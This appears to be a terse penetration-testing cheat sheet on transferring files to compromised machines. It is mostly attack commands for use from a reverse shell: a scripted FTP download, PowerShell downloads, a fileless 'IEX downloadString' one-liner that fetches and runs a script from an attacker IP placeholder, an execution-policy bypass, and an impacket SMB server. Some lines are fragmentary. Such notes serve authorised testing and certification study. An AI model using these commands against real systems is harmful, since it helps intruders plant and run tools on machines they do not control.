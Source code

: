# File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
FTP reverse shell
echo "open <IP>" > ftp.txt  
echo "offsec" >> ftp.txt  
echo "offsec" >> ftp.txt  
echo "bin" >> ftp.txt  
echo "get file.exe" >> ftp.txt  
echo "bye" >> ftp.txt   

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux

### Powershell
In Kali
python -m SimpleHTTPServer 80

  Stop services   
  List PID of servies   
    ps -l   
    kill -9 PID   

#### In reverse shell - Windows
```shell
powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe
```
#### Non-interactive execute powershell file

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

### SCP
After login through ssh
scp <fileToUpload> user@remote:/path
